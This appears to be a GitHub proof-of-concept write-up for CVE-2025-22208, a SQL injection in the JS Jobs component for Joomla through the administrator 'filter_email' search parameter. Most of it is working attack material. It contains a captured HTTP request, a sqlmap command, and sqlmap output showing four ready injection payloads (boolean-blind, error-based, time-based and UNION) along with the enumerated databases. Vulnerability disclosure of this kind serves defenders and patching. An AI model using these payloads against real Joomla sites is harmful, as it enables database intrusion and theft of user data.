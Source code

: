 # CVE-2025-22208: SQL injection in JS jobs component version 1.1.5 - 1.4.3 for Joomla

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22208

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.1.5-1.4.3 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands via the 'filter_email' parameter in the GDPR Erase Data Request search feature.

## POC
To exploit this vulnerability, go to 'Dashboard >> GDPR >> Erase Data Request >> Search' and capture the search Useremail request. Save that request to a file (req.txt) and run SQLMap through the file to exploit the vulnerable parameter (filter_email).

![Alt text](2.png)

**HTTP Request:**
```
POST /administrator/index.php HTTP/1.1
Host: localhost:8080
Content-Length: 77
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_jsjobs&c=gdpr&view=gdpr&layout=erasedatarequests
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; 540e9ab0c71c4445060a757b38444b04=64de8ff28342024d979552d8ff96e3cb; 58f028dd2afd9618c7033dd698dbf770=734e1e9a18b54f3f0a547799648d236e; f1b049cf45956510881f9283cc70983f=df845e612a28854cd04a392e5aac5505; 954f55fc9005096c1cbc635a7c8608fc=294bd118db443aa54b1be9313c54e685
Connection: keep-alive

filter_email=test&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr
```

**Exploit:**
```
ubuntu@host:~/sqlmap$ python3 sqlmap.py -r ~/req.txt --batch --dbs
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: filter_email (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: filter_email=test' AND EXTRACTVALUE(5420,CASE WHEN (5420=5420) THEN 5420 ELSE 0x3A END)-- dphL&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: filter_email=test' AND GTID_SUBSET(CONCAT(0x7178717071,(SELECT (ELT(4721=4721,1))),0x716b6b7671),4721)-- AoFU&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter_email=test' AND (SELECT 7546 FROM (SELECT(SLEEP(5)))IRqy)-- tkAY&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr

    Type: UNION query
    Title: MySQL UNION query (NULL) - 8 columns
    Payload: filter_email=test' UNION ALL SELECT NULL,CONCAT(0x7178717071,0x7071627259697252544c554b76616c4e794d4a6e4156424f6d7977616b507468704a556f646f4250,0x716b6b7671),NULL,NULL,NULL,NULL,NULL,NULL#&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
